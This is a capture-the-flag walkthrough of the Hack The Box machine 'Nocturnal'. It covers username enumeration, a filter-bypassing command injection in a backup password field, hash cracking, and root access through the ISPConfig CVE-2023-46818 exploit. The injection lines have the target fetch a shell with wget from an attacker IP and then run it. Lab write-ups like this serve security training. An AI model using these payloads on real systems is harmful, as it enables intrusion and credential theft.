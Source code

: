 # Nocturnal HTB Walkthrough

* **Machine Type**: Linux
* **Solved by**: Akshat Nigam
* **Category**: Web Exploitation, Privilege Escalation
* **Difficulty**: Easy
* **Attack Surface**: Web Interface, Parameter Injection, Intranet Exposure

---

## Port Scan

```
nmap Nocturnal.htb -sV -v

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

## Web Interface

* Register a user, log in.
* Upload a file (e.g., .xlsx). here i have uploaded dangerous.xlsx

* Note the download URL format:

 ```
http://nocturnal.htb/view.php?username=abc&file=dangerous.xlsx
```




## Enumerating Usernames

```
ffuf -w /usr/share/wrodlists/seclists/Usernames/Names/names.txt -u 'http://nocturnal.htb/view.php?username=FUZZ&file=dangerous.xlsx' \
-H 'Cookie: PHPSESSID=r9r2r5mvphpms3nnuk7gbl1i6n' -fs 2985

```

- Found valid users: `admin`, `amanda`, `tobias`
- Amanda's directory contained a file: `privacy.odt`
- File is a zip archive. Extract and find Amanda's password.

## Admin Panel Access
- Log in with Amanda's credentials.
- Create backup with password => Generates `.zip`
- Open BurpSuite capture the request, send it to the Repeater. 


* Filter can be bypassed using:

```
password=%0Abash%09-c%09"id"%0A&backup=
```

* Download remote shell using RFI:

```
password=%0Abash%09-c%09"wget%0910.xx.xx.xx/shell"%0A&backup=
password=%0Abash%09-c%09"bash%09shell"%0A&backup=
```
- Once you get into the shell, look for db file.
```
  nocturnal_database.db
```

- Get Tobias's hash from DB.

```
sqlite3 nocturnal_database.db
```

- Crack successfully to get Tobias's password.

```
john -w=/usr/share/wordlists/rockyou.txt hash.txt --format=Raw-Md5

```



## SSH into the system

```
ssh tobias@nocturnal 
```
---

## Privilege Escalation to Root

### Intranet Discovery

```
ss -tulnp
```

* Port 8080 open internally

```
ssh tobias@nocturnal.htb -L 9090:127.0.0.1:8080
```

* Found ISPConfig panel
* Inspect the HTML code of the website
* Likely version: `3.2`

### Exploit Used:

* CVE-2023-46818 - Code Injection in ISPConfig
* GitHub PoC: (https://github.com/ajdumanhug/CVE-2023-46818)

### Root Access

* Exploit or reuse credentials from Amanda/Tobias
* Success: Root shell acquired ✅

---

## Summary

* **User:** Exploited insecure parameter exposure to enumerate valid usernames. Dumped DB backup using Amanda's creds, cracked password hash to get Tobias.

* **Root:** Found local ISPConfig panel over port forwarding. Used public exploit (CVE-2023-46818) or password reuse to gain root access.

> Rooted `Nocturnal` 🌓
